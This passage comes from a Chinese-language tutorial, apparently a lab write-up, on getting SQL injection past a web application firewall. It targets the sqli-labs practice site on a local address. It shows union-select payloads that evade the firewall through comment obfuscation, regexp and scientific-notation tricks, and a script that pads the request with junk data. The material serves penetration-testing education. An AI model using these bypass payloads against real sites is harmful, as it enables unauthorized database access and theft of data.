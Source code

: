 ```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*/!*//*!11440select*/ 1,2,3 --+
```

![提交成功的特殊符号手动测试](./../../../images/SQLi%20Bypass/%E6%8F%90%E4%BA%A4%E6%88%90%E5%8A%9F%E7%9A%84%E7%89%B9%E6%AE%8A%E7%AC%A6%E5%8F%B7%E6%89%8B%E5%8A%A8%E6%B5%8B%E8%AF%95.png)

> 成功绕过
>
> `/*/!*/` 中间的 `/` 后加任意字符都可以，破坏了正则匹配

### 1.2.2 regexp 绕过

```
http://192.168.186.129/sqli-labs/Less-1/?id=1' regexp "%0A%23" /*!11144union %0A select */1,2,3--+
```

### 1.2.3 科学计数法绕过

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1'xor .1e1like "[%0a%23]"/*!11144union %0a select */1,2,3--+
```

### 1.2.4 产品缺陷绕过

使用脚本生成垃圾数据，安全狗大约需要 30 K 的垃圾数据，约为 800 个字符

```
┌──(root㉿kali-31)-[~]
└─# python generationData_bypass.py 800 > bypass.txt
```

查看生成的文件大小
